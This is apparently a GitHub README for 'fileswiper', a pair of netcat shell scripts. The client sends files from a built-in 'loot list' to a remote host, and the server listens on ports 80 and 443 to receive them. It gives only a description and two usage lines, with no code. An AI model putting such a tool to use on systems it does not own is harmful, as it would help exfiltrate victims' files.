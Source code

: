 # fileswiper

__Description__:

Script to make sending files via netcat faster and more convenient.

Client Script:
Will send all files on this machine that are in the loot list in the program.
Any additional files you want to select can also be entered.

Server Script:
Will open a listener on ports 443 and 80 for each file that the client script sends.


__Usage__:

Server script: `./server.sh`

Client script: `./client.sh RHOST [additional files or directories]`


__Screenshots__:

Server

    <img src="Images/server1.jpg" width = "300">
  
Client

    <img src="Images/client.png" width = "500">
